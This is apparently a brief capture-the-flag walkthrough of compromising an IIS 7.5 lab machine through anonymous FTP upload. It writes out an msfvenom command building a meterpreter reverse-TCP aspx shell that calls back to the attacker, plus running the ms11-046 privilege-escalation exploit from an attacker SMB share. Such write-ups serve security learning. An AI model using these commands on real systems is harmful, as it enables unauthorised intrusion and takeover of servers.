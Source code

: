 Started with a nmap scan
```
21 FTP
80 Miscrosoft IIS 7.5
```
Looking  at the FTP we have anonymous login and it looks like the file structure of the website and we can upload files to this FTP if we upload a `asp` file the website renders it so we can upload a asp shell and get RCE or a reverse shell and we got a call back as `iis apppool/web` to get a better shell we going to use msfvenom make a aspx shell `msfvenom -p windows/meterpreter/reverse_tcp lhost=tun0 lport=4443 -f aspx -o rev1.aspx` and then use curl to reach the file after we put it on the FTP and now we got a better shell and can use the local exploit suggester and its vulnerable to `ms11-046` and we can setup are smb server and then run it on the host `\\10.10.16.4\s\ms11-046.exe` and now we are system and can get both flags 